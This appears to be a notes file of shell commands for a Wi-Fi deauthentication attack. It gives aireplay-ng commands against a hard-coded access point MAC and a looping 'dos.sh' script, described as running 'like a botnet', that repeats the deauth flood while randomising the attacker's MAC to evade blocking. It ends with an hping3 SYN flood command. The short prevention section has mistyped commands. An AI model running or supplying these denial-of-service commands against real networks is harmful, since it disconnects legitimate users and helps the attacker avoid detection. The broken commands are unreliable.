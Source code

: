 # Edureka's Method using aireplay-ng

su root
ifconfig wlo1 down
iwconfig wlo1 mode monitor
ifconfig wlo1 up

iwconfig

airmon-ng check kill
kill PID
airmon-ng check kill

airodump-ng wlo1        # Copy bssid, ch
iwconfig wlo1 channel 6
aireplay-ng -0 0 -a 38:17:C3:C0:D2:40 wlo1



# Script to run like a botnet
## dos.sh
while true
do
    aireplay-ng -0 10 -a 38:17:C3:C0:D2:40 wlo1
    ifconfig wlo1 down
    macchanger -r wlo1 | grep "New MAC"
    ifconfig wlo1 up
    sleep 5

done


# Prevention
## Detect Deauth Packets

airdump-ng --write /tmp/deauth.log --output-format csv wlo10mon


## Method 2 (script)
#!/bin/bash

# Set your wireless interface name
IFACE="wlo1"

# Define allowed channels (2.4GHz common channels: 1 to 11)
CHANNELS=(1 2 3 4 5 6 7 8 9 10 11)

# Randomly select one channel
RANDOM_CHANNEL=${CHANNELS[$RANDOM % ${#CHANNELS[@]}]}

echo "[*] Changing $IFACE to channel $RANDOM_CHANNEL"

# Change channel using iw (needs interface in monitor or AP mode)
iw dev $IFACE set channel $RANDOM_CHANNEL

# Optional: restart hostapd or your AP service if required
systemctl restart hostapd


# Using Hping3
sudo hping3 -S --flood -p 8080 127.0.0.1


